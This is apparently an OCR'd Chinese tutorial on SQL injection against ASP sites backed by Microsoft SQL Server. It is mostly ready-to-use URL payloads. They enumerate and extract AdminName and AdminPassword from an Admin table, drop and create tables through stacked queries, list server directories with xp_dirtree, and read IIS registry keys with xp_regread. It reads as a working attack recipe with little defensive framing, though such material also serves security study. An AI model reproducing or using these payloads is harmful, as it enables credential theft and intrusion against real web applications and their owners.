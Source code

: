 假设只猜解AdminName和AdminPassword的值

首先查看Admin表有多少条记录：

news_show.asp?id=15618 And (Select Cast(Count([AdminName]) as nvarchar(4000))+char(124) From [news]..[Admin] Where 1=1)&gt;0

返回第一列数据：

news_show.asp?id=15618 And (Select Top 1 isNull(cast([AdminName] as nvarchar(4000)),char(32)) char(124) isNull(cast([AdminPassword] as nvarchar(4000)),char(32)) From (Select Top 1 [AdminName],[AdminPassword] From [news]..[Admin] Where 1=1 Order by [AdminName]) T Order by [AdminName] Desc)&gt;0

isNull是判定数据是否为空，为空就返回后面那个char(32)的值也就是空格-&gt;&amp;apos; &amp;apos; 。

后面的以此类推。

【读取目录--xp_dirtree】

drop掉表，然后在当前数据库创建一个表，有三个字段subdirectory,depth,file

Board.asp?id=494;DROP TABLE techguru;CREATE TABLE techguru(subdirectory nvarchar(400) NULL,depth tinyint NULL,[file] bit NULL)-

清空表的数据，然后把xp_dirtree存储过程的结果存入techguru表,xp_dirtree第一个参数是路径，第二个是深度，为0时无限递归，第三个是文件类型，1为文件夹和文件，0为只显示文件夹。

Board.asp?id=494;DELETE techguru;Insert techguru exec master..xp_dirtree &amp;apos;c:\&amp;apos;,1,1-

开始一个一个的抓取文件，目录名字，每次增加第二个top后面的数

Board.asp?id=494 And (Select Top 1 cast([subdirectory] as nvarchar(400))%2Bchar(124)%2Bcast([file] as nvarchar(1))%2Bchar(124) From(Select Top 1 [subdirectory],[file] From techguru ORDER BY [file],[subdirectory]) T ORDER BY [file] desc,[subdirectory] desc)=0

移除表：

Board.asp?id=494;DROP TABLE techguru-

【读取注册表--xp_regread】

首先建立一个表，有两列Value和Data

Board.asp?id=494;DROP TABLE [techguru];CREATE TABLE [techguru](Value nvarchar(4000) NULL,Data nvarchar(4000) NULL)-

执行xp_regread写入刚建立的表

Board.asp?id=494;DELETE [techguru];Insert [techguru] exec master.dbo.xp_regread &amp;apos;HKEY_LOCAL_MACHINE&amp;apos;,&amp;apos;SYSTEM\ControlSet001\Services\W3SVC\Parameters\Virtual Roots&amp;apos;,&amp;apos;/&amp;apos;-

读出来

Board.asp?id=494 And (Select Top 1 cast([Data] as nvarchar(4000))%2Bchar(124) From [techguru] order by [Data] desc)=0

删表

Board.asp?id=494;DROP TABLE [techguru]-
